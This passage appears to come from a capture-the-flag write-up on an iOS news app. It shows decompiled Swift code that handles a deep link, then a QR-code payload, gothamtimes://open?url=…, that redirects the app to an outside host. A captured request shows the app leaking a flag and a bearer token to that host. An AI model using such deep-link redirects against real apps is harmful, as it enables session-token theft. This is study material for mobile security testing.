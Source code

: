 ```c
        }
      }
      local_2d4 = local_2a4;
      _swift_bridgeObjectRelease(local_228);
      _swift_bridgeObjectRelease(local_238._8_8_);
      _objc_release(local_258);
      if ((local_2d4 & 1) != 0) {
        _objc_msgSend(local_260,"URL");
        local_2f0 = _objc_retainAutoreleasedReturnValue();
        static_URL._unconditionallyBridgeFromObjectiveC(lVar4);
        (*local_250)(lVar12,lVar4,lVar8);
        auVar13 = URL.absoluteString.getter();
        local_2f8 = auVar13._8_8_;
        local_308 = auVar13._0_8_;
        puVar10 = unaff_x20;
        (*local_248)(lVar12,lVar8);
        (*local_248)(lVar4,lVar8);
        auVar13 = String.init("url",3,1);
        local_300 = auVar13._8_8_;
        auVar13 = (**(code **)((*unaff_x20 & *(ulong *)puVar5) + 0x78))
                            (local_308,local_2f8,auVar13._0_8_);
        local_2e8._0_16_ = auVar13;
        _swift_bridgeObjectRelease(local_300);
        _swift_bridgeObjectRelease(local_2f8);
        _objc_release(local_2f0);
        local_e0 = local_2e8._0_16_;
        local_f0 = local_2e8._0_16_;
        outlined_init_with_copy_of_String?(local_f0,auStack_100);
        bVar7 = local_f8 != 0;
        unaff_x20 = puVar10;
        if (bVar7) {
          outlined_destroy_of_String?(auStack_100);
          unaff_x20 = puVar10;
        }
      //...  
      
```

### Exploiting the Application


First, open the application and log in as you normally would. With the app running in the background, scan a QR code generated with the text `gothamtimes://open?url=https://bernasv.com`. This action reveals an open redirect vulnerability in the app.

Examining the request in Burp, we see the following:

```
GET / HTTP/1.1
Host: bernasv.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Flag: FLAG{d33ply-l1nk3d(t0-w3bk1t}
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 16_3_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InRlc3RlIiwiaWF0IjoxNzE3ODM2NjgwfQ.lJmud2xM88GFhG9a3EorXpdaQhpJF_Qwil_blGd-atM
Accept-Language: en-GB,en;q=0.9
Connection: keep-alive
```
